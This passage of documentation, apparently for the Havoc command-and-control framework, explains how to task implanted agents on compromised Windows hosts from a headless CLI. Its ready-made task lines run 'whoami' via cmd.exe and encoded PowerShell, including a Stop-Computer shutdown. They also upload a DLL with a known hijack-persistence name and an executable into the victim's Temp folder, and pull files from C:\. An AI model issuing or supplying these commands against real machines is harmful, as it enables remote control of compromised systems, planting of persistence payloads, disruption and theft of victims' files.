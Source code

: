Command identifiers line up with the constants in [`teamserver/pkg/agent/commands.go`](../teamserver/pkg/agent/commands.go). For example, `12` invokes `COMMAND_PROC_LIST` while `2510` triggers `COMMAND_SCREENSHOT`. Combine those values with sub-command key/value pairs (e.g. `SubCommand=1`) to reach deeper capabilities.

When replicating higher-level console actions (such as `shell`), translate the Qt client’s payloads before sending them. The GUI wraps shell execution inside the process module, so you need to send both the numeric process command and the encoded arguments:

```text
> task AGT0213 0x1010 shell whoami ProcCommand=4 Args=0;FALSE;TRUE;c:\\windows\\system32\\cmd.exe;L2Mgd2hvYW1p
```

That format mirrors `CommandExecute::ProcModule` inside the Qt source. `ProcCommand=4` selects the “create process” branch and the trailing base64 value (`L2Mgd2hvYW1p`) is the encoded `/c whoami` argument block that the demon expects. Use the other helpers in `client/src/Havoc/Demon/CommandSend.cc` as a reference when you script additional task types. 【F:client/src/Havoc/Demon/ConsoleInput.cc†L856-L877】【F:client/src/Havoc/Demon/CommandSend.cc†L284-L315】

## Common command translations

The Qt console also hides a fair amount of bookkeeping when it fires Python modules or file-system helpers. The headless CLI can reproduce the same behaviour, but you must expand the high-level command into the raw task payload yourself. Replace `<agent-id>` with the demon identifier shown by the `agents` command.

### PowerShell one-liners

Use the process module (`CommandID 0x1010`) with `ProcCommand=4`. The `Args` field must contain the literal string `0;FALSE;TRUE;` followed by the PowerShell path and a base64-encoded command line. The examples below mirror the Qt client’s `powershell` helper.

```text
task <agent-id> 0x1010 powershell ProcCommand=4 Args=0;FALSE;TRUE;C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe;LUMgW1N5c3RlbS5FbnZpcm9ubWVudF06OkdldEVudmlyb25tZW50VmFyaWFibGUoIlBhdGgiLCAiTWFjaGluZSIp
task <agent-id> 0x1010 powershell ProcCommand=4 Args=0;FALSE;TRUE;C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe;LUMgW1N5c3RlbS5FbnZpcm9ubWVudF06OkdldEVudmlyb25tZW50VmFyaWFibGUoIlBhdGgiLCAiVXNlciIp
task <agent-id> 0x1010 powershell ProcCommand=4 Args=0;FALSE;TRUE;C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe;LUMgU3RvcC1Db21wdXRlcg==
```

The three commands above retrieve the machine `PATH`, the user `PATH`, and issue `Stop-Computer`, respectively.

### File uploads and downloads

File operations use `CommandID 15` (`COMMAND_FS`). Supply a `SubCommand` string and the encoded `Arguments` value that the demon expects. Paths are UTF-8 strings encoded with base64, matching the GUI implementation in `CommandExecute::FS` and the server-side translation in `teamserver/pkg/agent/demons.go`.

```text
# Upload local DLL to %LOCALAPPDATA%\Temp
task <agent-id> 15 upload SubCommand=upload Arguments=QzpcXFVzZXJzXFxBbGljZSBNYWxpY2VcXEFwcERhdGFcXExvY2FsXFxUZW1wXFxXcHRzRXh0ZW5zaW9ucy5kbGw=<base64-data>

# Upload local EXE to %LOCALAPPDATA%\Temp
task <agent-id> 15 upload SubCommand=upload Arguments=QzpcXFVzZXJzXFxBbGljZSBNYWxpY2VcXEFwcERhdGFcXExvY2FsXFxUZW1wXFxzdW1tb24uZXhl<base64-data>

# Download individual files from C:\
task <agent-id> 15 download SubCommand=download Arguments=Qzpcc2FtYW50aGEudHh0
task <agent-id> 15 download SubCommand=download Arguments=Qzpcc3lzdGVtaWMudHh0
task <agent-id> 15 download SubCommand=download Arguments=Qzpcc2VjdXJpdHkudHh0
```